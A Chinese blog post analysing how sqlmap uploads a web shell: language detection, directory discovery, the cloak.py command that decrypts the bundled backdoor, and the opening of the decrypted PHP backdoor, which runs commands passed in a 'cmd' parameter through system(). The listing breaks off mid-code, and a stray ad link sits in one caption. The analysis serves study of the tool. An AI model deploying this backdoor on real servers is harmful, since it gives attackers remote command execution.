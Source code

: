 这个函数比较长，这里挑重点说一下：


第一步确认应用语言类型：


首先会初始化相关变量，获取公开的应用语言类型，存储在choices列表中。然后需要根据当前的url后缀确定默认语言。如果没有通过url后缀确定出来，那么Windows平台默认就是asp，其他均视为php。或者最后由用户自己输入应用语言类型。


[![image](https://img2024.cnblogs.com/blog/3222269/202411/3222269-20241123225826883-55404399.png)](https://github.com)


第二步准备上传目录和上传文件的内容：


首先sqlmap它会主动通过从不同来源解析文件路径，包括从原始页面匹配的url中解析，从修改后的url中解析，从请求参数中解析，从cookie中解析。尽可能的找多的完整文件路径存贮在kb.absFilePaths列表中。


上传目录列表directories，它可以通过getManualDirectories函数获取手动指定的目录列表，还会调用getAutoDirectories函数获取自动生成的目录列表（即kb.absFilePaths列表，然后再使用正则表达式对路径path进行一个处理。


[![image](https://img2024.cnblogs.com/blog/3222269/202411/3222269-20241123230728790-1227964948.png)](https://github.com)


上传目录准备完成，接着就需要准备待写入的stager文件和backdoor后门文件的文件内容，首先会生成一个随机的后门文件名（tmpb\+随机字符串）以备使用，然后需要从分别本地来获取后门的内容和stager的内容。


[![image](https://img2024.cnblogs.com/blog/3222269/202411/3222269-20241123231023245-1455259667.png)](https://github.com):[milou加速器](https://xinminxuehui.org)


可以不妨先来看看这两个待写入的文件是什么东西，以php脚本为例。


注意：



> 这里下划线结尾的文件是无法直接打开浏览的，原因是这些文件中包含了一些恶意的代码，sqlmap为了防止本地的杀软把这些文件误杀了，进行了加密处理。
> 
> 
> 可以通过sqlmap提供的extra/cloak/cloak.py进行解密：python cloak.py \-d \-i D:\\Temp\\sqlmap\-1\.8\\data\\shell\\backdoors\\backdoor.php\_


解密后的backdoor.php\_如下：



```
php</span
$c=$_REQUEST["cmd"];
@set_time_limit(0);
@ignore_user_abort(1);
@ini_set("max_execution_time",0);
$z=@ini_get("disable_functions");
if(!empty($z)){
	$z=preg_replace("/[, ]+/",',',$z);
	$z=explode(',',$z);
	$z=array_map("trim",$z);
}else{
	$z=array();
}
$c=$c." 2>&1\n";
function f($n){
	global $z;
	return is_callable($n)and!in_array($n,$z);
}
if(f("system")){
	ob_start();
	system($c);
```